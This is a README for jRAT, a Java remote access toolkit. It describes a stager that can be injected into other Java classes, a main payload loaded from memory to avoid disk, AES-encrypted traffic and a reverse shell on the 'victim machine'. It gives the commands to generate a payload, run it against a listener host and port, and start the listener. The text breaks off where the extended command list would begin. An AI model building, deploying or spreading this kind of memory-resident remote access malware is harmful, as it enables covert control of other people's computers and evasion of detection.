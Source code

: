 # jRAT
Remote administration toolkit that runs from memory written in Java

- **Portable**
  - Runs on Windows, Linux, MacOS, Android

- **Modular design**
  - Additional functionality can be added at runtime by loading additional modules, and the functionality of jRAT can be extended by developing new modules.

- **Runs from memory**
  - Only the initial stager is run from disk, the main payload (Stage) and any additional modules that are loaded are loaded and run using a class loader from memory. In case an additional module depends on shared libraries they are saved to a temporary file, loaded, and removed after loading.

- **Encrypted**
  - Network communication is encrypted using AES


This remote administration toolkit consists of a simple stager that can be injected into other Java clases, or used as a standalone payload.
By running the jRAT.jar without any parameters `java -jar jRAT.jar`, a standalone payload is created containing the main method that can be used for demonstration purposes, by providing it the server/listener address and port to connect to.


**Generating a standalone payload**

`java -jar jRAT.jar`

**Running a standalone payload**

`java -jar standaloner.jar <host> <port>`

**Starting a listener**

`java -jar jRAT.jar <port>`


After the client connects to the listener a shell will be presented, and a directory created for the victim machine in the current directory.
Directory name will be named based on the IP address of the victim machine.
By default jRAT works as a reverse shell and can be used to execute commands on the victim machine.
Additional functionality is provided by using the commands described below, which can be seen by using the `help` command:













